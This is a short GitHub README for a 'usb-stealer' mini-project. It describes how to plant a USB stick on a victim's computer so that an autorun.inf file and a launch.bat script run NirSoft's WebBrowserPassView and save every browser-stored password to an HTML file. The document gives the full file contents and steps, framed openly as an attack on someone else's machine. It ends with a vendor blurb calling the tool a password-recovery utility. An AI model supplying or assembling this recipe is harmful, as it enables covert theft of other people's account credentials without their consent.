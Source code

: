 # usb-stealer

Hi ✋ 

My mini-project  is USB stealer 
The idea is very simple by inserting USB to the victim's computer 💻  and remove it and the output is getting all saved passwords.


Tools used WebBrowserPassView from nirosft


 Steps:
 
 All in USB   
 
  - Creating an autorun file to launch the app after inserting the USB
 
  - Creating launch.bat file 
  
  - Copy  WebBrowserPassView.exe


Detail:

*   Open notepad and type:       [Autorun]open=launch.bat

And save it as an autorun.inf


Open notepad and type: 

Start  WebBrowserPassView.exe /shtml output.html

And save is as launch.bat

Now Our USB is ready 

How it's work:

WebBrowserPassView go when passwords are saved and copy it 






------------------------------------------
WebBrowserPassView is a password recovery tool that reveals the passwords stored by the following Web browsers: Internet Explorer (Version 4.0 - 11.0), Mozilla Firefox (All Versions), Google Chrome, Safari, and Opera. This tool can be used to recover your lost/forgotten password of any Web site, including popular Web sites, like Facebook, Yahoo, Google, and Gmail, as long as the password is stored by your Web Browser.  
